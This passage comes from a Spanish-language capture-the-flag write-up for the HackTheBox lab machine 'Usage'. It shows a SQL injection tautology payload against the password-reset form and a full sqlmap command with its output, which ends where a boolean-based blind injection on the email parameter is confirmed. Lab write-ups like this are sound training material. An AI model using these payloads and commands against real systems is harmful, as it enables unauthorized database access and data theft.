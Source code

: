 Veamos como lo bypasseamos.

## Intrusión

Si nos vamos a `Reset Password` e intentamos colocar caráctares raros como la comilla, de pronto el servidor nos tirará un error; pero si intentamos hacer la típica inyección SQL para una tautología (`OR 1=1 -- -`), ahora el servidor no dirá que el enlace para reiniciar la contraseña fue enviado satisfactoriamente al correo; lo que es un claro indicio de una inyección SQL a ciegas.

![Tautology](/assets/writeups/usage/2.png)

Como estamos ante una dificultad sencilla y no nos queremos complicar mucho, utilizaremos SQLMap para esta labor. Puedes hacer una petición a la ruta vulnerable, luego guardarla en un archivo para pasárselo a SQLMap o simplemente hacerle manualmente. Yo iré por la segunda:

```bash
❯ sqlmap -u http://usage.htb/forget-password --cookie="XSRF-TOKEN=eyJpdiI6IkZUUE8yNG1qTWdPVEJrQnFuSk9jcnc9PSIsInZhbHVlIjoidk1YMk9mTUhyMWpySmp1VFh6VmJ3MG9rN3NLdnhvb1N2WS9jVGNIVnRIbkZVN2MyN2Jvd05vM3FwTWVIbVJjdml2N2VuTEwxeEVKcFdBTnhXU1NhYWFNU2Ntem92OTVaVks4ZGhtMURSOWdzMkZ5SXVWTnp0UGlnVG5ML3JkTEciLCJtYWMiOiJmOGNmZmUwZGI4OTQ3ZTA5YmZmZmViNGJjOWYwMjBmODY5YjVhNmZiODY4ZWJlYjI3YWU3OTNmNTgzYmE3YTAwIiwidGFnIjoiIn0=; laravel_session=eyJpdiI6ImtmRHZwMThpRHp0T25yaWxiWDB1cnc9PSIsInZhbHVlIjoiY1Z4aU1lS0dKQklEeGNWRGtKdkE1Nm9pd04rcDJ0WmdadTVNYm81UU0xdERCbllsZlY0dUUyR1dEaWRTUFpNdzhWNjNKc2ZPY1FZb0h1OVg3VDJSVU5PbGlVYU1IbzM0K1ltUDVLUFF6YW9Zb1lwd1AzMUNiQlFNYytOT0V3Sm8iLCJtYWMiOiJkZmU2YmRiNTQ2YzEyYTUxMzlmZDA3MjJkMDkzZjlhOGEzMGVhZTk1OGQ4NTIzMmVmOTE0NjA1OGUxNzI2ZmU1IiwidGFnIjoiIn0=" --dbms=mysql --data="_token=gsk9r6ufTLKPQ2nG4YIJYshKLyKnbhoQM5YZsO3u&email=test@test.com" --level 5 --risk 3
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.6.3#dev}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:33:19 /2024-08-09/

POST parameter '_token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
[20:33:21] [INFO] testing connection to the target URL
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] y
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] n
[20:33:38] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
```